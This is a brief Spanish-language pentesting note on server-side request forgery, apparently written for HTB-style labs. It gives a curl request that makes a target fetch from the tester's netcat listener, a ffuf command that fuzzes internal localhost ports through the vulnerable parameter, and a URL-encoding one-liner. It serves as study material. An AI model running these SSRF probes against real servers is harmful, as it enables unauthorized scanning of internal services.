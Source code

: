 #web #vuln 

Esta vulnerabilidad permite al atacante utilizar servicios del servidor remoto de manera malintencionada, normalmente modificando parámetros de la URL y enviándola a la víctima.

Encontramos esta vulnerabilidad que hacen peticiones a recursos externos. Para encontrarla debemos fijarnos en diferentes cosas:

Las peticiones HTTP
Importar archivos
Conexiones remotas del servidor
Imports de APIs
Funcionalidades como ping del servidor

### Comprobación de SSRF por parámetro

1. Levantamos un puerto con nc
2. Buscamos el parámetro que creemos que es vulnerable
3. Hacemos la siguiente petición:
	curl -i -s http://10.129.65.231/load?q=http://10.10.14.188:8080
	Haciendo un GET a nuestro servidor nc y mostrándose en el mismo.

### Descubrimiento de posibles vectores de ataque

Buscamos servicios que funcionen el localhost o que estén abiertos pero solo permitan interactuar desde la propia máquina.

Creamos un script para fuzzearlos:

```shell-session
for port in {1..65535};do echo $port >> ports.txt;done
```

Lo fuzzeamos de esta forma:

```shell-session
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```

Para encodear comandos para la url podemos usar este comando:

```shell-session
echo "encode me" | jq -sRr @uri
```

